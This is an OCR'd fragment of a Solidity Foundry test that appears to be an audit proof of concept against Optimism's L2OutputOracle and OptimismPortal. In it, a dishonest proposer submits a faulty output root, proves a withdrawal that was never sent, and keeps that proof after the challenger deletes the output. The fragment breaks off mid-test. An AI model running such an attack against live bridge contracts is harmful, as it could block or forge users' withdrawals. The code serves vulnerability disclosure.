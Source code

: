 ```solidity
        assertEq(l2OutputOracle.nextOutputIndex(), 0);

        /**
         * At this point, the transaction is not yet sent to L2toL1Messenger by the user, however, proposer
         * is faking a state where the transaction was already sent to the messenger, to preform a DoS only for that transaction
         */
        address attackerProposer = proposer;
        vm.startPrank(attackerProposer);
        vm.warp(startTime + submissionInterval * l2BlockTime + 1);
        l2OutputOracle.proposeL2Output( // This is a faulty output provided by the prospoer
            outputRoot,
            startBlock + submissionInterval, // l2BlockNumber, should be starting + interval
            bytes32(0), // does not matter
            10 // does not matter
        );
        optimismPortal.proveWithdrawalTransaction( // Here, the transaction that should not be submitted is submitted anyways!
            _tx,
            0, // since it should point to the first proof
            outputRootProof,
            proof
        );
        vm.stopPrank();

        /**
         * At this point, the attack is basically done!
         * The attacker submitted a proof for the transaction that is not sent yet!
         * Proposer can get challenged and it will rever l2OutputOracle, but the effects on provenWithdrawls will remain
         */

        assertEq(l2OutputOracle.nextOutputIndex(), 1);

        // Let's say the challenger finds out about the  missbehavious and revert the l2OutputOracle
        vm.prank(challenger); // Challenger sees that there is no tx sent to the L2toL1Messenger for the l2BlockNumber yet and challenges the output
        l2OutputOracle.deleteL2Outputs(0);

        assertEq(l2OutputOracle.nextOutputIndex(), 0);


        /**
         * After the challenge, a new honest proposer will try to submit the correct root for the previous l2 blocks.
         * Since the transaction was not sent yet for the checkpoint at index 0 of the l2Outputs, outputroot
         * at index zero does not have a transaction with the above tx's hash set as true
         */
        Types.OutputRootProof memory dummyOutputRootProof = Types.OutputRootProof({ // We are not going to check the content of this, just as a dummy for index 0 of l2OutputOracle
            version: bytes32("0x1"),
            stateRoot: bytes32("0x1"),
            messagePasserStorageRoot: bytes32("0x1"),
            latestBlockhash: bytes32("0x1")
        });
        bytes32 dummyOutputRootHash = Hashing.hashOutputRootProof(dummyOutputRootProof);

        vm.warp(startTime + 2 * submissionInterval * l2BlockTime + 1);

        address honestProposer = proposer;
```